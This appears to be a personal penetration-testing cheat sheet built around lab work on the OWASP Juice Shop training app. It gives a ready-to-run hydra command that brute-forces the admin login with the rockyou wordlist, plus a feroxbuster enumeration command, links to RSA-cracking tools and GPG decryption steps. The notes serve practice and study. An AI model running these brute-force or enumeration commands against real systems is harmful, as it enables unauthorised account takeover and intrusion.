 # InfoSec notes

## Hydra

### HTTP Post

Example: Brute-force `admin` login of the OWASP Juice-Shop

Authentication `POST` request looked like this in Browser DevTools

```shell
curl 'http://10.10.114.54/rest/user/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.114.54/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=5yIoLc2JuE6AcrUbAAAA; language=en; cookieconsent_status=dismiss' --data-raw '{"email":"hello@example.com","password":"asdf"}'
```

with response 401 `Invalid email or password.`

This converts to `hydra` as follows

```bash
# -V verbose
# `-l admin@juice-sh.op` the admin's email
hydra -v -V -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

# general layout (note: single user -l vs user list -L, same for password)
#  hydra -L <USER> -P <Password> <IP Address> http-post “<Login Endpoint>:<Request Body>:<Error Message>”
```

## Feroxbuster

`feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt`

## Tools for cracking RSA

- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)

## Share files with Kali VM

[gofile](https://gofile.io/uploadFiles)

## GPG

```bash
gpg --import private.key
gpg --decrypt encrypted.file > plain.txt
```
